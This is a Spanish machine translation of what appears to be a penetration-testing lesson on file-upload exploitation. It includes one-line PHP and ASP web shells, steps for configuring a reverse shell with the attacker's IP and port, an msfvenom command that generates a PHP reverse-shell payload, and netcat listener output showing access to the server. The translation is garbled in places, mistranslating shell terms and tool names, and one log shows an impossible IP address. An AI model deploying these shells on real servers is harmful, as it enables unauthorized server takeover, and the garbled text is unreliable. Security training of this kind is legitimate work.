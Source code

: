 # Explotación de carga

---

El paso final para explotar esta aplicación web es cargar el script malicioso en el mismo idioma que la aplicación web, como un shell web o un script de shell inverso. Una vez que cargamos nuestro script malicioso y visitemos su enlace, deberíamos poder interactuar con él para tomar el control sobre el servidor de fondo.

---

## Shells web

Podemos encontrar muchos shells web excelentes en línea que proporcionan características útiles, como el recorrido de directorio o la transferencia de archivos. Una buena opción para`PHP`es[phpbash](https://github.com/Arrexel/phpbash), que proporciona un shell web semi-interactivo similar a un terminal. Además,[Listas](https://github.com/danielmiessler/SecLists/tree/master/Web-Shells)Proporciona una pthora de shells web para diferentes marcos e idiomas, que se pueden encontrar en el`/opt/useful/seclists/Web-Shells`directorio en`PwnBox`.

Podemos descargar cualquiera de estos shells web para el idioma de nuestra aplicación web (`PHP`En nuestro caso), luego cárguelo a través de la función de carga vulnerable y visite el archivo cargado para interactuar con el shell web. Por ejemplo, intentemos subir`phpbash.php`de[phpbash](https://github.com/Arrexel/phpbash)a nuestra aplicación web, y luego navegue a su enlace haciendo clic en el botón Descargar:

   

![](https://academy.hackthebox.com/storage/modules/136/file_uploads_php_bash.jpg)

Como podemos ver, este shell web proporciona una experiencia similar al terminal, lo que hace que sea muy fácil enumerar el servidor de fondo para una mayor explotación. Pruebe con algunos otros proyectiles web de las secciones y vea cuáles satisfacen mejor sus necesidades.

---

## Escribir shell web personalizado

Aunque el uso de proyectiles web de los recursos en línea puede proporcionar una gran experiencia, también debemos saber cómo escribir un shell web simple manualmente. Esto se debe a que es posible que no tengamos acceso a herramientas en línea durante algunas pruebas de penetración, por lo que debemos poder crear una cuando sea necesario.

Por ejemplo, con`PHP`Aplicaciones web, podemos usar el`system()`función que ejecuta comandos del sistema e imprime su salida, y pase la`cmd`parámetro con`$_REQUEST['cmd']`, como sigue:

Código:php

```php
<?php system($_REQUEST['cmd']); ?>
```

Si escribimos el script anterior a`shell.php`y subirlo a nuestra aplicación web, podemos ejecutar comandos del sistema con el`?cmd=`Obtener el parámetro (por ejemplo`?cmd=id`), como sigue:

   

![](https://academy.hackthebox.com/storage/modules/136/file_uploads_php_manual_shell.jpg)

Puede que esto no sea tan fácil de usar como otros shells web que podemos encontrar en línea, pero aún proporciona un método interactivo para enviar comandos y recuperar su salida. Podría ser la única opción disponible durante algunas pruebas de penetración web.

**Consejo:**Si estamos utilizando este shell web personalizado en un navegador, puede ser mejor usar la vista de origen haciendo clic en`[CTRL+U]`, ya que la vista de origen muestra la salida del comando como se mostraría en el terminal, sin ninguna representación HTML que pueda afectar la forma en que se formateado la salida.

Las conchas web no son exclusivas para`PHP`, y lo mismo se aplica a otros marcos web, siendo la única diferencia las funciones utilizadas para ejecutar comandos del sistema. Para`.NET`Aplicaciones web, podemos aprobar el`cmd`parámetro con`request('cmd')`hacia`eval()`función, y también debe ejecutar el comando especificado en`?cmd=`e imprima su salida, como sigue:

Código:áspid

```asp
<% eval request('cmd') %>
```

Podemos encontrar varios otros shells web en línea, muchos de los cuales se pueden memorizar fácilmente para fines de pruebas de penetración web. Debe tenerse en cuenta que`in certain cases, web shells may not work`. Esto puede deberse al servidor web que evita el uso de algunas funciones utilizadas por el shell web (por ejemplo,`system()`), o debido a un firewall de aplicación web, entre otras razones. En estos casos, es posible que necesitemos usar técnicas avanzadas para evitar estas mitigaciones de seguridad, pero esto está fuera del alcance de este módulo.

---

## Caparazón

Finalmente, veamos cómo podemos recibir conchas inversas a través de la funcionalidad de carga vulnerable. Para hacerlo, debemos comenzar descargando un script de shell inverso en el idioma de la aplicación web. Una carcasa inversa confiable para`PHP`es el[pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell)PHP Shell inverso. Además, lo mismo[Listas](https://github.com/danielmiessler/SecLists/tree/master/Web-Shells)Mencionamos anteriormente también contiene scripts de shell inverso para varios idiomas y marcos web, y también podemos utilizar cualquiera de ellos para recibir un shell inverso.

Descargemos uno de los scripts de shell inverso anteriores, como el[pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell), y luego ábralo en un editor de texto para ingresar nuestro`IP`y escuchar`PORT`, a la que se conectará el script. Para el`pentestmonkey`Script, podemos modificar líneas`49`y`50`e ingrese la IP/puerto de nuestra máquina:

Código:php

```php
$ip = 'OUR_IP';     // CHANGE THIS
$port = OUR_PORT;   // CHANGE THIS
```

A continuación, podemos comenzar un`netcat`Oyente en nuestra máquina (con el puerto anterior), cargue nuestro script en la aplicación web y luego visite su enlace para ejecutar el script y obtener una conexión de shell inversa:

  Explotación de carga

```shell-session
xnoxos@htb[/htb]$ nc -lvnp OUR_PORT
listening on [any] OUR_PORT ...
connect to [OUR_IP] from (UNKNOWN) [188.166.173.208] 35232
# id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Como podemos ver, recibimos con éxito una conexión del servidor de fondo que aloja la aplicación web vulnerable, lo que nos permite interactuar con ella para una mayor explotación. El mismo concepto se puede utilizar para otros marcos e idiomas web, y la única diferencia es el script de shell inverso que utilizamos.

---

## Generación de scripts de shell inverso personalizados

Al igual que las shells web, también podemos crear nuestros propios scripts de shell inverso. Si bien es posible usar el mismo anterior`system`Funcionar y pasar un comando de shell inverso, esto no siempre es muy confiable, ya que el comando puede fallar por muchas razones, como cualquier otro comando de shell inverso.

Es por eso que siempre es mejor usar funciones básicas de marco web para conectarse a nuestra máquina. Sin embargo, esto puede no ser tan fácil de memorizar como un script de shell web. Afortunadamente, herramientas como`msfvenom`puede generar un script de shell inverso en muchos idiomas e incluso puede intentar evitar ciertas restricciones en su lugar. Podemos hacerlo de la siguiente manera para`PHP`:

  Explotación de carga

```shell-session
xnoxos@htb[/htb]$ msfvenom -p php/reverse_php LHOST=OUR_IP LPORT=OUR_PORT -f raw > reverse.php
...SNIP...
Payload size: 3033 bytes
```

Una vez que nuestro`reverse.php`Se genera un script, una vez más podemos comenzar un`netcat`oyente en el puerto que especificamos anteriormente, cargue el`reverse.php`Script y visite su enlace, y también deberíamos recibir un shell inverso:

  Explotación de carga

```shell-session
xnoxos@htb[/htb]$ nc -lvnp OUR_PORT
listening on [any] OUR_PORT ...
connect to [OUR_IP] from (UNKNOWN) [181.151.182.286] 56232
# id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Del mismo modo, podemos generar scripts de shell inverso para varios idiomas. Podemos usar muchas cargas útiles de shell inversa con el`-p`marcar y especificar el lenguaje de salida con el`-f`bandera.

Si bien los shells inverso siempre se prefieren sobre los shells web, ya que proporcionan el método más interactivo para controlar el servidor comprometido, es posible que no siempre funcionen, y es posible que tengamos que confiar en los shells web. Esto puede ser por varias razones, como tener un firewall en la red de back-end que evita las conexiones salientes o si el servidor web deshabilita las funciones necesarias para iniciar una conexión a nosotros.
